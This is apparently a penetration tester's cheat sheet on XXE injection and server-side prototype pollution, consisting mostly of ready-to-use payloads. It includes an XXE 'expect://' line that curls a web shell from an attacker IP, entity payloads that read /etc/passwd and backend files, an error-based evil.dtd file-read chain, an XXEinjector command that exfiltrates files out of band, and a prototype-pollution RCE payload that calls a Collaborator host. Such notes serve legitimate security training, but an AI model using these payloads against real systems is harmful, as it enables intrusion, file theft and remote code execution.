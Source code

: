 ### XXE Injection

*   Enumeration
    *   XML / JSON Requests & Conversions
    *   [Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md) / [Obfuscations](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#waf-bypasses) / [Payloads](https://github.com/payloadbox/xxe-injection-payload-list)
    *   XML Header    → `<?xml version="1.0" encoding="utf-8" standalone="yes"?>`
    *   Content Type  → `Content-Type: application/xml`
*   RCE
    *   `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "expect://[CMD]"> %xxe; ]>`
    *   `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'"> %xxe; ]>`
*   SSRF
    *   `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "[INTERNAL_HOST]"> ]>`
    *   Access Internal Servers
    *   Bypass Restrictions
    *   [Exploits](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
*   LFI
    *   Standard
        *   `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file://[FILE_OR_DIR]"> ]>`
    *   Filter Wrapper
        *   `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=[BACKEND_FILE]"> ]>`
    *   XInclude
        *   `<foo xmlns:xi="http://www.w3.org/2001/XInclude">`
        *   `<xi:include parse="text" href="file:///etc/passwd"/></foo>`
    *   CDATA
        *   `echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd`
        *   [Backend / Local File Read](https://academy.hackthebox.com/module/134/section/1206)
    *   Error-Based
        *   [Local](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#error-based---using-local-dtd-file) / [Remote](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#error-based---using-remote-dtd)
        *   `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "[YOUR_SERVER]/evil.dtd"> %xxe; %err; ]>`
        *   \----evil.dtd-----
        *   `<!ENTITY % file SYSTEM "file://[FILE]">`
        *   `<!ENTITY % err "<!ENTITY content SYSTEM '%idontexist;/%file;'>">`
        *   \-----------------
    *   [OOB](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)
        *   [XXEInjector](https://github.com/enjoiz/XXEinjector)
        *   Place `XXEINJECT` after XML Header → Copy Raw Request
        *   `ruby XXEinjector.rb --host=[KALI_IP] --httpport=8000 --file=[XXE_REQUEST] --path=[FILE_TO_READ] --oob=http --phpfilter`

### SSPP Injection

*   URI String
    *   `ppscan() [URL]`
*   JSON Input
    *   Burp Extension → Server-Side Prototype Pollution Scanner
    *   Confirmation
        *   `"__proto__":{ "foo":"bar" }`           → Data Reflection / Object Assignment
        *   `"__proto__":{ "status":400 }`         → Status Code Override
        *   `"__proto__":{ "json spaces":10 }` → Indentation Change
        *   `"__proto__":{ "content-type": "application/json; charset=utf-7" }` → `"+AGYAbwBv-"` + `foo`
        *   Obfuscation
            *   `"constructor": { "prototype": { [PAYLOAD] } }`
    *   RCE Payloads
        *   `"__proto__": { "shell":"node", "NODE_OPTIONS":"--inspect=BURP-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com" }`